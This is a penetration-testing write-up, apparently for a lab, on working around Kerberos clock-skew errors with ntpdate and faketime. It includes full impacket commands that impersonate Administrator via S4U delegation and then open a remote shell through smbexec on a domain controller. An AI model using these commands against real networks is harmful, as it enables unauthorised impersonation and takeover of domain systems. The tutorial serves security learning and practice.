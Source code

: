 # By vishok kerberos
# error fized
####
####
####
## Bypassing Kerberos Time Verification
### Clock skew too great:
**Kerberos** is a network authentication protocol that uses encrypted tickets to verify identities in distributed systems. One of its fundamental security measures is **strict time synchronization** between clients and servers.
####
<div class="tip">

> Is time to perfom a deep analysis to fixed this error. 
</div>

####
```ruby
Kerberos(Clock Skew Too Great)
```
####
Occurs when there's a time difference greater than **5 minutes** (by default) between the local clock and the DC[*Domain Controller*]. This protection prevents replay attacks where an attacker might attempt to reuse old tickets. In compromised environments or during penetration testing, this mechanism can block valid TGT [*Ticket Granting Ticket*] acquisition, preventing access to resources.
####
####
####
## Solution using ntpdate
### Ntpdate:
The **ntpdate** command is a utility for setting and synchronizing the date and time of a computer system to match that of a reliable NTP [*Network Time Protocol*] server. By ensuring the system clock is accurate, ntpdate helps maintain system logs, schedule tasks, and ensure time-sensitive operations run effectively. But this protocol or service can not work, installed or available to distribution that you are using.
####
```ruby
sudo systemctl status systemd-timesyncd          
    Result ->
        Unit systemd-timesyncd.service could not be found.
```
####
Synchronizing a computer internal clock is crucial in maintaining synchronization across clusters databases, and logging services. When systems operate on different times, anomalies may occu  to data corruption or erroneous log entries. Using sudo ntpdate host, an administrator can  computer clock adheres to a globally accepted time standard provided by a specific host stron or NTP server.
####
```ruby
ntpdate coloso.local
    Result ->
        2025-05-06 15:12:02.237340 (-0700) +3181.036456 +/- 0.059572 coloso.local 10.10.11.51 s1 no-leap
        CLOCK: step_systime: Operation not permitted
```
####
Under certain conditions, it might be necessary to enforce an instantaneous time adjustment rather than gradual
syncing, for example avoiding time make use **slewed**, **settimeofday**.
####
```ruby
ntpdate -b coloso.local
```
####
In many cases de the speed of the internet play a crucial role when you try to syncronize against a Domain Controller, in very useful to have so kwoledge in automation programing lenguajes.
####
<div class="tip">

> Is time to craft our custom script to send a **multiple** syncronizing attempt request.
</div>

####
```ruby
for x in $(seq 1 10); do sudo ntpdate coloso.local; done
```
####
####
####
## Solution using faketime
### Faketime:
The **faketime** tool intercepts system time-related calls, allowing applications to be *FOOLED* about the current time, we can use this to bypass the **Kerberos time verification** in **impacket** tools against a Windows System Operation that running over a Domain Controller.
####
First we obtain the exact time from the Domain Controller via SMB, since this protocol doesn't have the same time restrictions as Kerberos and then we use faketime with the obtained time to generate our TGT. This step generates a `.ccache` file with a valid Kerberos ticket, synchronized with the *DC* time.
####
| Get date commands | Description |
| ----- | ----- |
| date /t | Displays only the current date | 
| time /t | Displays only the current time |
| date | Displays and allows you to modify the date |
| Get-Date | Displays full date and time |
| Get-Date -Format "dd/MM/yyyy" | Custom output date | 
| Get-Date -Format "HH:mm:ss" | Hour in 24h format |
| (Get-Date).DayOfWeek | Day of the week |
####
Once we obtain the time of the DC or Windows, we must to pass that time to **faketime**:
####
```ruby
date -> In DC or Windows

Result -> 
    "2025-04-19 21:24:36"

faketime "2025-04-19 21:24:36" -> In our machine
```
####
That command is very important that was executed in the same line or in the same command when you try to connect or get A *TGT* ticket: `faketime - impacket-getST`.
####
<div class="warning">

> The **faketime** command must be added in the same line without use **pipes**, **xargs** etc.
</div>

####
So if we want to get a TGT, we must to execute the next command:
####
```ruby
faketime "2025-04-19 21:24:36" impacket-getST -spn 'cifs/coloso.local' -impersonate Administrator -dc-ip 10.10.11.174 'coloso/vishok$:vishok'

[+] Getting TGT for user
[+] Impersonating Administrator
[+]     Requesting S4U2self
[+]     Requesting S4U2proxy
[+] Saving ticket in Administrator.ccache
```
####
The `faketime "2025-04-19 21:24:36" impacket-getST` is in the same line, both are different comands. Furthermore, the second command will haven't a highlight color, but this is normal, don't worry, the second command will be executed.
####
####
####
## Technical Deep Dive: faketime mechanics
### Deep Dive:
**Faketime** works by intercepting system calls related to time through *LD_PRELOAD*, a Linux mechanism that loads libraries before others. The *LD_PRELOAD* variable allows to paths to libraries which are to be loaded before any other libraries are loaded. What’s important, the  symbols e.g. functions contained in the preloaded libraries take precedence over the symbols from libraries loaded afterwards.
####
When applications like **impacket-getST** make system calls to check the current time like `time()`, `gettimeofday()`, or `clock_gettime()`, these calls are redirected to libfaketime instead of the standard C library.
####
<div class="img">
    <img src="/machines/public/clockskew/2.png" loading="lazy" decoding="async" />
</div>

####
####
####
## Final configuration
### KRB5CCNAME:
To use the generated ticket, we export it as an environment variable this tells Impacket tools where to find our Kerberos credentials. Finally we execute the target command with the spoofed time:
####
```ruby
date -> In DC or Windows

Result -> 
    "2025-04-19 21:30:08"

KRB5CCNAME=Administrator.ccache faketime "2025-04-19 21:30:08" impacket-smbexec -dc-ip 10.10.11.174 -no-pass -k coloso/administrator@coloso.local
```
####
How you can see, in all moment is necessary use the **faketime**.